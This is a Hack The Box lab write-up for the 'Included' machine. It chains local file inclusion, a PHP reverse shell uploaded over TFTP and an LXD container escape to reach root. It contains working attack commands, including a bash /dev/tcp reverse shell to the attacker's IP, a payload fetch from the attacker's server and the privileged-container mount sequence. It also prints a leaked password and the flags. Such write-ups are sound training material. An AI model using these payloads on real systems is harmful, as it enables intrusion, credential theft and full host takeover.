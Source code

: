 ```yaml
---
title: HTB Included — LFI to TFTP Shell and LXD Root Escalation
description: A complete walkthrough of exploiting Local File Inclusion (LFI) to leak credentials, uploading a reverse shell via TFTP, and gaining root access through LXD container misconfiguration.
tags: [HTB, LFI, TFTP, LXD, Privilege Escalation, Reverse Shell, Alpine, Penetration Testing, CTF, Linux]
date: 2025-07-16
author: zerokoollabs
---
```


# HTB: Included – Full Write-Up

**Target IP:** 10.129.95.185  
**Attacker IP:** 10.10.14.5

---

## 🧠 Summary

This box required chaining multiple vulnerabilities:

- **Local File Inclusion (LFI)** to access sensitive server-side files.
- **TFTP** to upload a custom reverse shell.
- **LXD privilege escalation** via a custom Alpine container.

The flow: LFI → leaked credentials → TFTP reverse shell → user access → LXD escalation → root.

---

## 🔍 Enumeration

Initial scan:

```bash
nmap -sC -sV 10.129.95.185
```

Results:
- Port 80 open (Apache httpd 2.4.29)
- Title: “Site doesn't have a title”
- Web parameter observed: `?file=home.php`

---

## 📂 LFI Exploitation

Tested traversal:

```http
http://10.129.95.185/?file=../../../../etc/passwd
```

Confirmed LFI — `/etc/passwd` dumped successfully.

Tried to access `/etc/shadow` but returned a blank page → expected due to web server permissions.

### Base64 LFI:

```http
?file=php://filter/convert.base64-encode/resource=home.php
```

Successfully retrieved base64 source of `home.php` → decoded to static HTML.

Tested `.htaccess` as well:

```http
?file=php://filter/convert.base64-encode/resource=.htaccess
```

Revealed Apache rewrite rules and commented-out HTTP Basic Auth:
```
AuthUserFile /var/www/html/.htpasswd
```

Retrieved `.htpasswd`:

```http
?file=/var/www/html/.htpasswd
```

✅ Credentials found:
```
mike:Sheffield19
```

---

## 🌐 No Login Panel Found

Tested:
- `/login.php`
- `/admin.php`
- `/panel/`
- `/dashboard.php`

None responded with usable login.

---

## 🌐 UDP Enumeration

Initial UDP scan:

```bash
sudo nmap -sU 10.129.95.185
```

Too slow — optimized:

```bash
sudo nmap -sU -p 69 --min-rate=1000 -T4 10.129.95.185
```

Port 69/UDP (TFTP) confirmed open.

---

## 💣 Reverse Shell via TFTP

Created `shell.php` reverse shell script:

```php
<?php
$ip = '10.10.14.5';
$port = 4444;
exec("/bin/bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'");
?>
```

Uploaded via TFTP:

```bash
tftp 10.129.95.185
put shell.php
```

Triggered:

```bash
curl 'http://10.129.95.185/?file=/var/lib/tftpboot/shell.php'
```

Got reverse shell as `www-data`.

Upgraded shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## 👤 Lateral Movement to User `mike`

Used leaked password `Sheffield19` for local login:

```bash
su mike
```

Found `user.txt`:

```bash
cat /home/mike/user.txt
# a56ef91d70cfbf2cdb8f454c006935a1
```

---

## 🧱 Privilege Escalation via LXD

Check groups:

```bash
id
# mike is in group: lxd
```

Built Alpine container on attacker machine:

```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
python3 -m http.server 8000
```

On target:

```bash
wget http://10.10.14.5:8000/alpine.tar.gz
lxc image import ./alpine.tar.gz --alias pwnimage
lxc init pwnimage pwncontainer -c security.privileged=true
lxc config device add pwncontainer host-root disk source=/ path=/mnt/root recursive=true
lxc start pwncontainer
lxc exec pwncontainer /bin/sh
chroot /mnt/root /bin/bash
```

🎉 Now root on host.

---

## 🏁 Got Root

```bash
cd /root
cat root.txt
# c693d9c7499d9f572ee375d4c14c7bcf
```

---

## 🧠 Notes on LFI Fallback Logic

Backend PHP might look like:

```php
$file = $_GET['file'];
$whitelist = ['home.php', 'about.php'];

if (in_array($file, $whitelist)) {
    include($file);
} else {
    include('home.php');
}
```

Or:

```php
$file = basename($_GET['file']);
include($file);
```

---

## 🎯 Lessons Learned

- LFI is still powerful when combined with `php://filter`.
- TFTP can be a viable upload path even when underused.
- LXD group membership is a goldmine if misconfigured.

---

*Rooted with persistence, misconfig chaining, and container escape tactics. 💥*
